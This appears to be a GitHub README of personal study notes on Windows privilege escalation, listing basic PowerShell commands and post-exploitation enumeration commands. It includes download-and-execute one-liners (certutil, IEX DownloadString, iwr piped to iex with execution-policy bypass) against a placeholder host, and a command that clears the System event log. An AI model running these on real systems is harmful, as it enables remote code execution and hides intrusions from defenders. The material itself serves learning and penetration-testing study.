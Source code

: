 # WindowsPrivEsc
Repository on Windows Privilege Escalation, It contains helpful resources which can guide you escalating your privileges on Windows. I was noting all of the Privilege Escalation methods and vectors while I was studying it. Please go through it and you may find it helpful. Also, Small CheatSheets can be found here which can be important. Will keep updating it!


## PowerShell Basic Commands:

`Get-ChildItem` (Displays all the contents in the current directory)

`Get-Alias` (Displays all the aliases)

`Set-Alias` (Setup your Alias)

`$profile` (Lists your powershell profile, for eg: `"C:\Users\user\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1"`)

`Import-Module ./PowerUp.ps1` (Imports a PowerShell Script Module)

`Remove-Item` (Delete any file or folder)

`Import-Alias` (Import aliases)

## Download and Execute:

### CertUtil:

`certutil -urlcache -f http://127.0.0.1/sample.exe C:\temp\sample.exe && C:\temp\sample.exe`

### PowerShell:

`Invoke-WebRequest "http://127.0.0.1/sample.exe" -OutFile "C:\temp\sample.exe"` (This will only download the file)

`echo IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/sample.exe') | powershell -noprofile -`

`powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://127.0.0.1/sample.ps1')|iex"`

### Post exploitation enumeration:

- `whoami /all` : Gain all information about the user on the machine.
- `whoami/groups` : Gain information only about the groups the current user is present in.
- `whoami /priv` :  Gain information about the privileges of the user.
- `systeminfo` : Display information about the system such as Kernel Version, Architecture, OS Version and so on.
- `driverquery` : Display a list of all the installed drivers on victim machine
- `sc query <servicename>` : Display information about a particular service.
- `tasklist` : Obtain Information about running tasks
- `tasklist /m kernel32.dll` : Obtain information about running tasks which are linked with a particular module  
- `taskkill /f /pid <pid>` : Kill a specified process ID
- `wevtutil el` : List all logs on the system
- `wevtutil cl System` : Clear all logs (Requires Admin Privileges)
- `wmic logicaldisk get Caption,Description` : List all hard-drives on the system

# Socials

TwitterID: https://twitter.com/BhalgamaVedant 

YouTube: https://www.youtube.com/channel/UCIlMtOiRDi1luvhtjczvjJw 

